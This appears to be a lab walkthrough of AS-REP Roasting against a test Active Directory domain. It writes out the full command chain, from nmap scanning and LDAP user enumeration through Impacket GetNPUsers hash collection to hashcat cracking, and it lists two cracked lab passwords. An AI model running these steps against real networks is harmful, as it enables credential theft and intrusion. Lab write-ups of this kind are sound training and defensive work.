




# 🧨 Attack Walkthrough: AS-REP Roasting

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```

### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```

### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```

### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```

### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```


I now have access to two low level accounts:
- audry.florencia 159357
- mag.auria charles

---

## 🏁 Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.

---


